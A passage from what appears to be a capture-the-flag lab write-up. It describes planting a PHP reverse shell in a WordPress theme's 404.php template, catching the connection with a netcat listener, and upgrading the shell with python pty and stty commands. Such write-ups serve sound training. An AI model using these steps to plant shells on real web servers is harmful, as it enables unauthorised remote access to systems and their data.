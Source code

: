 Edit the `404.php template` to put our php reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Change the `IP address` to attacking box IP and the `port` that you will be listening on for a reverse shell.
![image](/assets/img/Posts/internal/rev.png)

Once we have that updated, we can access it in `/wp-content/themes/twentyseventeen/404.php`. We start our netcat listener 

```bash
┌──(prorat㉿prosec)-[~/hacks/thm/internal]
└─$ nc -nlvp 1337                
listening on [any] 1337 ...

```
We visit our php reverse shell script that we have planted in the innocent `404.php` template and boom we got a shell!!.

```bash
┌──(prorat㉿prosec)-[~/hacks/thm/internal]
└─$ nc -nlvp 1337                
listening on [any] 1337 ...
connect to [10.9.81.8] from (UNKNOWN) [10.10.29.155] 38416
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:51:39 up 55 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### Upgrading the shell
Start by finding which python version is installed in the machine by running `which python3`. Followed by `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell, then `export TERM=xterm` which gives us access to term commands. Then run `CTRL + z` to background the session and `stty raw -echo; fg` which turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes then finally `stty rows 38 columns 116`.
We now have a stable shell
```bash
www-data@internal:/$ ls
bin   cdrom  etc   initrd.img	   lib	  lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz
www-data@internal:/$ 
www-data@internal:/$ 

```